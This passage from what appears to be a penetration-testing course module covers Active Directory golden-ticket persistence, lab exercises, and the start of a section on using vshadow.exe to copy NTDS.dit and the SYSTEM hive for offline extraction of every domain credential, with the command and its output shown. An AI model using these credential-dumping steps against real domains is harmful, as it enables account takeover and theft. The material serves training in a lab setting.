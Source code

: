 > Listing 40 - Use of NTLM authentication blocks our access

In this section, we have demonstrated the golden ticket technique as a persistence mechanism. By obtaining the NTLM hash of the *krbtgt* user, we can issue domain-administrative TGTs to any existing low-privileged account. This allows us to obtain inconspicuous legitimate access to the entire AD domain.

## Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

Lateral Movement in Active Directory - Golden Ticket - VM Group 1

Lateral Movement in Active Directory - Golden Ticket - VM Group 2

#### Labs

1. Start VM Group 1 and repeat the steps discussed in this section. Which user's NTLM hash do we need to abuse in order to forge a golden ticket?

Answer

2. Start VM Group 2 and try to execute the golden ticket persistence technique to get access to DC1 and get the flag located on the administrator's desktop.

Answer

## 24.2.2. Shadow Copies

A [*Shadow Copy*](https://en.wikipedia.org/wiki/Shadow_Copy), also known as *Volume Shadow Service* (VSS) is a Microsoft backup technology that allows the creation of snapshots of files or entire volumes.

To manage volume shadow copies, the Microsoft signed binary [*vshadow.exe*](https://learn.microsoft.com/en-us/windows/win32/vss/vshadow-tool-and-sample) is offered as part of the [Windows SDK](https://developer.microsoft.com/en-us/windows/downloads/windows-sdk/).

As domain admins, we can abuse the vshadow utility to create a Shadow Copy that will allow us to extract the Active Directory Database [**NTDS.dit**](https://technet.microsoft.com/en-us/library/cc961761.aspx) database file. Once we've obtained a copy of the database, we need the SYSTEM hive, and then we can extract every user credential offline on our local Kali machine.

To start, we'll connect as the *jeffadmin* domain admin user to the DC1 domain controller. Here we will launch an elevated command prompt and run the **vshadow** utility with **\-nw** options to [*disable writers*](https://learn.microsoft.com/en-us/windows/win32/vss/shadow-copy-creation-details), which speeds up backup creation and include the **\-p** option to store the copy on disk.

```
C:\Tools>vshadow.exe -nw -p  C:

VSHADOW.EXE 3.0 - Volume Shadow Copy sample client.
Copyright (C) 2005 Microsoft Corporation. All rights reserved.

(Option: No-writers option detected)
(Option: Create shadow copy set)
- Setting the VSS context to: 0x00000010
Creating shadow set {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5} ...
- Adding volume \\?\Volume{bac86217-0fb1-4a10-8520-482676e08191}\ [C:\] to the shadow set...
Creating the shadow (DoSnapshotSet) ...
(Waiting for the asynchronous operation to finish...)
Shadow copy set succesfully created.

List of created shadow copies:

Querying all shadow copies with the SnapshotSetID {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5} ...

```

[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname